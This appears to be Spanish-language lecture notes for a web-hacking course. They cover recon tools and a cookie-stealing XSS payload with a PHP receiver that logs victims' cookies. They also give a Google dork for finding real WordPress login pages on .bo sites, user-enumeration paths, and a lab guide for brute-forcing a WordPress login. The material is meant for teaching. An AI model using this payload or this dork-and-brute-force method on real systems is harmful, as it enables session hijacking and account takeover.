








## Tema 1 


## Tema 2
Dirbuster
https://dirbuster.com/

FFuF
http://ffuf.me/

DotGit
https://chromewebstore.google.com/detail/dotgit/pampamgoihgcedonnphgehgondkhikel

GitDump
https://github.com/Ebryx/GitDump

MaquinaVirtual
https://drive.google.com/file/d/1L0oapq5ZmXGb1zc8t33w4rlRX-CEybxc/view?usp=drive_link


## Tema 3
http://bwapp.ucb.edu.bo

### XSS
(https://community.owasp.org/attacks/xss/)[https://community.owasp.org/attacks/xss/]

```javascript
<script>
    window.location = "http://192.168.1.1/xss/guardar.php?archivo=nombre&cookie=" + encodeURIComponent(document.cookie);
</script>
```

### Recepcion 
```php
<?php
$nombre_archivo = $_GET['archivo'] . ".txt";

$cookie     = $_GET['cookie'];
$fecha      = date("Y-m-d H:i:s");
$ip_remota  = $_SERVER['REMOTE_ADDR'];
$user_agent = $_SERVER['HTTP_USER_AGENT'];

$contenido = "Fecha: $fecha\nIP Remota: $ip_remota\nUser Agent: $user_agent\nCookie: $cookie\n\n";
file_put_contents($nombre_archivo, $contenido, FILE_APPEND);
?>
```


### Brute Force Login
https://community.owasp.org/attacks/Brute_force_attack
https://community.owasp.org/attacks/Password_Spraying_Attack

https://github.com/portswigger/turbo-intruder
https://portswigger.net/bappstore/9abaa233088242e8be252cd4ff534988

https://docs.google.com/spreadsheets/d/1vNRxu5bqLMRaOte6p8DjsfJqL9ofLA0oChqF--RjDcU/edit?usp=sharing


### Doork
site:bo inurl:wp-login.php

### Worpress reconocimiento
/?author=1
/wp-json/wp/v2/users


# Práctica: Enumeración de usuarios y pruebas de autenticación en WordPress

### Configuración del archivo `hosts`

Configura el archivo `hosts` en windows o su sistema de preferencia, para que la dirección IP `44.200.143.133` apunte al dominio `wp.ucb.edu.bo`.

- **IP:** `44.200.143.133`
- **Dominio:** `wp.ucb.edu.bo`




### Procedimiento

1. **Acceso mediante Burp Suite:** Abre Burp Suite, utiliza su navegador integrado e ingresa al dominio `wp.ucb.edu.bo`.



2. **Enumeración de usuarios:** Utiliza el parámetro `/?author=1` y prueba valores consecutivos hasta identificar los nombres de usuario que expone la aplicación.




3. **Acceso al formulario de inicio de sesión:** Ingresa a la siguiente dirección:
   `http://wp.ucb.edu.bo/wp-login.php`

   

4. **Generación de un intento fallido:** Introduce credenciales incorrectas para generar un intento de inicio de sesión fallido. Intercepta la solicitud con Burp Suite y analiza los parámetros enviados al servidor.



5. **Pruebas de fuerza bruta controladas:** En un entorno de laboratorio autorizado, configura una prueba de autenticación con un diccionario de contraseñas. Para consultar los recursos de referencia, utiliza el siguiente repositorio:

   [Diccionarios y comandos de Kali Linux para Web Hacking](https://github.com/JuanFajardo/KaliLinuxComandos/blob/main/3%20WebHacking/dicc-wp.txt)

    

    


### Objetivo de la práctica

Identificar cómo se pueden enumerar usuarios en WordPress, analizar las solicitudes HTTP del formulario de autenticación mediante Burp Suite y comprender los riesgos asociados a los intentos repetidos de inicio de sesión.

Al iniciar sesión, introduzca los siguientes datos en la página: número de CI, nombre de usuario y contraseña.

